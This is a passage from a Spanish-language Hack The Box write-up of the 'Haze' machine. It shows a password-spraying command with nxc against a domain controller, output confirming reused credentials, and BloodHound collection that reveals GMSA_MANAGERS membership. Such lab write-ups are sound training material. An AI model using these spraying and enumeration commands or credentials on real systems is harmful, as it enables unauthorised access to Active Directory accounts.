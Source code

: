 ```terminal
/home/kali/Documents/htb/machines/haze:-$ echo 'paul.taylor\nmark.adams\nedward.martin\nalexander.green\nHaze-IT-Backup$' > users2.txt
```

Realizo un ataque de password spraying utilizando la contraseña ya conocida. El objetivo es verificar si otros usuarios comparten las mismas credenciales. Y confirmo que `mark.adams` también posee acceso con la misma contraseña.

```terminal
/home/kali/Documents/htb/machines/haze:-$ nxc smb 10.10.11.61 -u users2.txt -p 'Ld@p_Auth_Sp1unk@2k24' --continue-on-success
SMB         10.10.11.61     445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:haze.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.61     445    DC01             [+] haze.htb\paul.taylor:Ld@p_Auth_Sp1unk@2k24 
SMB         10.10.11.61     445    DC01             [+] haze.htb\mark.adams:Ld@p_Auth_Sp1unk@2k24 
SMB         10.10.11.61     445    DC01             [-] haze.htb\edward.martin:Ld@p_Auth_Sp1unk@2k24 STATUS_LOGON_FAILURE 
SMB         10.10.11.61     445    DC01             [-] haze.htb\alexander.green:Ld@p_Auth_Sp1unk@2k24 STATUS_LOGON_FAILURE 
SMB         10.10.11.61     445    DC01             [-] haze.htb\Haze-IT-Backup$:Ld@p_Auth_Sp1unk@2k24 STATUS_LOGON_FAILURE 
```

---
### Permission Groups Discovery

```terminal
/home/kali/Documents/htb/machines/haze:-$ faketime "$(rdate -n -p $TARGET | awk '{print $2, $3, $4}' | date -f - "+%Y-%m-%d %H:%M:%S")" zsh

/home/kali/Documents/htb/machines/haze:-$ bloodhound-python -u 'mark.adams' -p 'Ld@p_Auth_Sp1unk@2k24' -ns 10.10.11.61 --zip -c All -d haze.htb -dc dc01.haze.htb
```

Encuentro que `mark.adams` forma parte del grupo `GMSA_MANAGERS`, lo que implica privilegios administrativos sobre cuentas de tipo Group Managed Service Account. Los Group Managed Service Accounts permiten el uso de cuentas administradas por el dominio con contraseñas largas, rotadas automáticamente y recuperables únicamente por usuarios autorizados. La pertenencia a `GMSA_MANAGERS` implica privilegios sobre al menos una cuenta de servicio de este tipo.

![](assets/img/htb-writeup-haze/haze2_1.png)

---